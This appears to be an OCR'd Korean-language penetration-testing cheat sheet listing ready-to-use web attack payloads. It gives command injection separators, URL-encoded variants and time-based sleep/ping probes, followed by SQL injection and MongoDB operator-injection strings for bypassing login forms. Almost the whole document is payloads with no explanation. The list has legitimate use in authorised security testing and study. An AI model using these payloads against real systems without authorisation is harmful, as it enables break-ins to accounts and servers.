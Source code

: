 ### 💻 Command Injection 기본 테스트

```bash
# 기본 명령어 구분자
; id
| id
& id
&& id
|| id
` id `
$(id)
${id}

# URL 인코딩
%3B id
%7C id
%26 id
%26%26 id
%7C%7C id

# 시간 기반 테스트
; sleep 5
| sleep 5
& sleep 5
; ping -c 5 127.0.0.1
| ping -c 5 127.0.0.1
```

---

## 🎯 상황별 페이로드

### 🔐 Authentication Bypass

```bash
# SQL Injection 기반 인증 우회
username: admin'--
password: anything

username: admin' OR '1'='1'--
password: anything

username: admin' OR 1=1#
password: anything

username: ' OR ''='
password: ' OR ''='

# NoSQL Injection (MongoDB)
username[$ne]=admin&password[$ne]=password
username[$regex]=.*&password[$regex]=.*
username[$gt]=&password[$gt]=

# JSON 형태
{"username": {"$ne": "admin"}, "password": {"$ne": "password"}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
```
